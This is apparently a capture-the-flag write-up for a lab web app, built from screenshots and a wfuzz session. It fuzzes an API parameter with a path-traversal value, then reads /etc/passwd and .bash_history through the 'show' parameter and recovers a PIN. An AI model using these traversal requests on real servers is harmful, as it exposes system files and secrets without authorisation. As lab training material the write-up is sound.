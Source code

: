 <h3>web</h3>

<img width="1094" height="103" alt="image" src="https://github.com/user-attachments/assets/84694a9d-0bcb-4847-a6dd-ea2e44bee2d3" />

<p>/robots.txt</p>

<img width="1125" height="79" alt="image" src="https://github.com/user-attachments/assets/9d11a72e-ea05-4719-86a9-616f212b7a01" />

<p>/api</p>

<img width="1104" height="336" alt="image" src="https://github.com/user-attachments/assets/67f43716-30a8-41e7-a718-2ada9e45b76c" />


<h3>wfuzz</h3>

```bash
/Bookstore# wfuzz -u http://10.10.49.52:5000/api/v1/resources/books\?FUZZ\=../../../../../../../etc/passwd -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt --hc 404,503
libraries.FileLoader: CRITICAL __load_py_from_file. Filename: /usr/local/lib/python3.8/dist-packages/wfuzz/plugins/payloads/bing.py Exception, msg=No module named 'shodan'
libraries.FileLoader: CRITICAL __load_py_from_file. Filename: /usr/local/lib/python3.8/dist-packages/wfuzz/plugins/payloads/shodanp.py Exception, msg=No module named 'shodan'
********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.49.52:5000/api/v1/resources/books?FUZZ=../../../../../../../etc/passwd
Total requests: 220560

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                        
===================================================================

000000395:   200        37 L     53 W     2015 Ch     "show"                                                         
000000486:   200        1 L      1 W      3 Ch        "author"                                                       
000000529:   200        1 L      1 W      3 Ch        "id"                                                           
000011548:   200        1 L      1 W      3 Ch        "published"         
...
```


<p>TargetIP:5000/api/v1/resources/books?show=../../../../../../../etc/passwd</p>

<img width="1131" height="233" alt="image" src="https://github.com/user-attachments/assets/09e04a36-1395-4395-82f9-fa72b0cc40fb" />

<p>TargetIP:5000/api/v1/resources/books?show=.bash_history</p>

<p>pin = 123-321-135</p>

<img width="1072" height="50" alt="image" src="https://github.com/user-attachments/assets/7f068d98-578b-4a31-afac-17eb6c1281eb" />


